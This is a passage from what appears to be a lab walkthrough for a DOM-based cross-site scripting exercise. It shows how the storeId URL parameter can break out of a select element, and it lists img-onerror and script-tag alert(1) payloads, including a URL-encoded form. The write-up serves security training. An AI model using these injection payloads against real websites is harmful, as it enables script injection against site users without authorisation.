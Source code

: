 Here we can see clearly the storeId is set to london

**Step4:**

Now when we use this payload in url

`x"></select><img src=x onerror=\x10"javascript:alert(1)">`

It show image in

<img src="images/image41.png" alt="third" width="500">

**Step5:**

Now we try

`&storeId="></select><img%20src=1%20onerror=alert(1)>`

Alternative payload

`&storeId="><script src=1 href=1 onerror="javascript:alert(1)"></script>`

URL encoded

`&storeId="><script+src%3d1+href%3d1+onerror%3d"javascript%3aalert(1)"></script>`

<img src="images/image42.png" alt="third" width="500">
